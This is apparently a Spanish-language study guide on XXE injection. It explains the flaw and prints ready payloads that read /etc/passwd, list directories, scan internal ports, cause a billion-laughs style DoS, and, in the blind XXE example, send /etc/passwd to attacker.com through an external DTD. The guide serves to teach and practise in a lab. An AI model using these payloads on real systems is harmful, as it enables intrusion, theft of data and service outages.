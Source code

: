 ## XXE

- Cuando hablamos de XML External Entity (XXE) Injection, nos referimos a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

- Un ataque XXE generalmente implica la inyección de una entidad XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

- Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

- Cabe destacar que, en ocasiones, los ataques XXE no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “ir a ciegas” para obtener información confidencial a través de técnicas adicionales, como el uso de un DTD externo.

- Un DTD (Document Type Definition) externo es un archivo que define la estructura y las entidades de un documento XML. 

- Adicionalmente, un ataque XXE puede ser utilizado como un vector para explotar una vulnerabilidad de tipo SSRF (Server-Side Request Forgery), permitiendo al atacante enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima.

### Ejemplos de ataques XXE

#### Ejemplo Básico de Inyección XXE:

Este ejemplo muestra cómo un atacante puede definir una entidad externa para inyectar datos arbitrarios:

```xml
<!DOCTYPE foo [
<!ENTITY xxe "Texto inyectado por el atacante">
]>
<foo>&xxe;</foo>
```

- Se define una entidad `xxe` con un valor arbitrario.
- Cuando el servidor procesa el XML, reemplaza `&xxe;` con el texto definido por el atacante.

#### Enumeración de Directorios:

Este ejemplo intenta enumerar los archivos en un directorio específico:

```xml
<!DOCTYPE list [
<!ENTITY xxe SYSTEM "file:///var/www/">
]>
<list>&xxe;</list>
```

- La entidad `xxe` apunta a un directorio en el sistema.
- Si el servidor permite el acceso, el contenido del directorio será expuesto.

#### Inyección de Entidad Interna:

Este ejemplo utiliza una entidad interna para manipular el contenido del XML:

```xml
<!DOCTYPE foo [
<!ENTITY xxe "Contenido malicioso">
]>
<foo>
    <bar>&xxe;</bar>
</foo>
```

- La entidad `xxe` se utiliza para inyectar contenido malicioso dentro de un nodo XML.
- Esto puede ser útil para manipular la lógica de procesamiento del servidor.

#### Uso de Entidades Recursivas:

Este ejemplo intenta causar un ataque de denegación de servicio (DoS) mediante entidades recursivas:

```xml
<!DOCTYPE bomb [
<!ENTITY a "1234567890" >
<!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
<!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
]>
<bomb>&c;</bomb>
```

- Se definen entidades que se expanden recursivamente.
- Esto puede sobrecargar el servidor al procesar el XML.

#### Referencia a Recursos Remotos:

Este ejemplo intenta cargar un recurso remoto:

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://attacker.com/malicious.xml">
]>
<foo>&xxe;</foo>
```

- La entidad `xxe` apunta a un archivo remoto.
- Si el servidor permite la carga, el atacante puede inyectar contenido adicional desde su servidor.

#### Ejemplos más concretos:

Este ejemplo intenta leer el contenido del archivo `/etc/passwd` en un sistema basado en Unix:

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

- Se define una entidad externa `xxe` que apunta al archivo `/etc/passwd`.
- Cuando el servidor procesa el XML, reemplaza `&xxe;` con el contenido del archivo especificado.

#### XXE Ciego:

Este ejemplo demuestra un ataque XXE ciego donde el contenido de `/etc/passwd` se envía al servidor del atacante:

```xml
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```

Con `evil.dtd` conteniendo:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
```

- El servidor carga un DTD externo desde `http://attacker.com/evil.dtd`.
- El DTD define una entidad `file` que apunta a `/etc/passwd` y una entidad `send` que envía el contenido del archivo al servidor del atacante.

#### Escaneo de Puertos Internos (SSRF):

Este ejemplo utiliza XXE para realizar un escaneo de puertos internos:

```xml
<!DOCTYPE scan [
<!ENTITY xxe SYSTEM "http://127.0.0.1:8080">
]>
<scan>&xxe;</scan>
```

- Se define una entidad `xxe` que apunta a un servicio interno en `127.0.0.1:8080`.
- Si el puerto está abierto, el servidor intentará conectarse, confirmando la existencia del servicio.



Para practicar esta vulnerabilidad, puedes consultar el laboratorio correspondiente en el siguiente enlace: [Laboratorio de XXE](#).